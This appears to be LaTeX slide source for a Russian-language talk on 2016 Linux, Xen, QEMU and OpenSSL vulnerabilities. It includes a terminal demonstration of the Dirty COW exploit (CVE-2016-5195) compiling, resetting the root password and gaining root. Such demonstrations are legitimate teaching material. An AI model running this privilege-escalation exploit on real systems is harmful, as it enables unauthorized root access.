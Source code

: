 \begin{frame}
\frametitle{\insertsection}
\framesubtitle{1 2 3}

\begin{table}[H]
    \begin{tabular}{|l|l|p{4cm}|l|}
        \hline CVE ID & CVSS & Тип уязвимости & ПО \\
        \hline CVE-2016-5195 & 7.2 & Получение привилегий & Linux Kernel \\
        \hline CVE-2016-6258 & 7.2 & Получение привилегий & Xen \\
        \hline CVE-2016-5696 & 5.8 & Получение данных & Linux Kernel \\
        \hline CVE-2016-3710 & 7.2 & Запуск кода & QEMU \\
        \hline CVE-2016-8655 & 7.2 & Получение привилегий, DoS & Linux Kernel \\
        \hline CVE-2016-4997 & 7.2 & Получение привилегий, DoS, доступ к памяти & Linux Kernel \\
        \hline CVE-2016-4484 & 7.2 & Получение привилегий & CryptSetup \\
        \hline CVE-2016-6309 & 10.0 & DoS, запуск кода & OpenSSL\\
        \hline
    \end{tabular}
\end{table}
\end{frame}


\section{Эксплуатация CVE-2016-5195}

\begin{frame}
\frametitle{\insertsection}
\framesubtitle{Dirty COW}

{\small \texttt{\$ id \\
{\color{green} uid=1000(dcow)} gid=1000(dcow) groups=1000(dcow) \\
\$ g++ dcow.cpp -std=c++11 -pthread -o dcow -lutil}}

\vspace{\baselineskip}

{\small \texttt{\$ ./dcow \\
Running ... \\
Received su prompt (Password: ) \\
Root password is: dirtyCowFun \\
Enjoy! :-)}}

\vspace{\baselineskip}

{\small \texttt{\$ su root \\
Password: dirtyCowFun \\
\# id \\
{\color{red} uid=0(root)} gid=0(root) groups=0(root)
}}
\end{frame}

